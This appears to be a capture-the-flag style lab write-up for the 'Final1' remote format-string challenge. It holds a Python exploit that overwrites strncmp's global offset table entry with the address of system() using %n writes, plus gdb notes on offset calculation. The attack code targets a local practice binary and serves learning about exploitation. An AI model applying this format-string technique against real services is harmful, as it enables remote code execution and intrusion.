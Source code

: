 ### Final1 Remote Format String Exploit

```
import socket
import struct
import time
import telnetlib

HOST="127.0.0.1"
PORT=2994

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
ip, port = s.getsockname()
hostname="{ip}:{port}".format(ip=str(ip), port=str(port))

padding = (24-len(hostname)) * "A" # ensures consistency in terms of how our variables are aligned and stored in the stack

_SYSTEM = struct.pack("I", 0xb7ecffb0)

STRNCMP = struct.pack("I", 0x804a1a8)

STRNCMP_2 = struct.pack("I", 0x804a1a8+2)

USERNAME_PAYLOAD = "username " + padding + STRNCMP + STRNCMP_2 + "\n"

LOGIN_PAYLOAD = "login " + "%65391x%17$n" + "%47164x%18$n" + "\n"

s.send(USERNAME_PAYLOAD)
s.send(LOGIN_PAYLOAD)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

### Interesting observations tinkering around with gdb

- After attaching program to gdb, if you do not continue the program, running your exploit will hang at accept() till you run `(gdb) c` to continue execution which makes sense cause attaching programs to debuggers such as gdb will pause program execution.

- `(gdb) set follow-fork-mode child` to follow every child thread forked by main thread. To understand why the program exactly does this, see 0x19 where LiveOverflow reverses Net0 binary using strace.

### Offset Calculation things

1.  ```
    STRNCMP = struct.pack("I", 0x804a1a8)
    STRNCMP_2 = struct.pack("I", 0x804a1a8+2)
    USERNAME_PAYLOAD = "username " + padding + STRNCMP + STRNCMP_2 + "\n"
    LOGIN_PAYLOAD = "login " + "%17$n" + "%18$n" + "\n"
    ```
    
    ```
    (gdb) x 0x804a1a8
    0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x00410041
    (gdb) print 0xffb0 - 0x41
    $2 = 65391
    ```

2.  ```
    STRNCMP = struct.pack("I", 0x804a1a8)
    STRNCMP_2 = struct.pack("I", 0x804a1a8+2)
    USERNAME_PAYLOAD = "username " + padding + STRNCMP + STRNCMP_2 + "\n"
    LOGIN_PAYLOAD = "login " + "%65391x%17$n" + "%18$n" + "\n"
    ```
    
    ```
    (gdb) x 0x804a1a8
    0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0xffb0ffb0
    (gdb) print 0xb7ec - 0xffb0
    $1 = -18372
    (gdb) print 0x1b7ec - 0xffb0
    $2 = 47164
    ```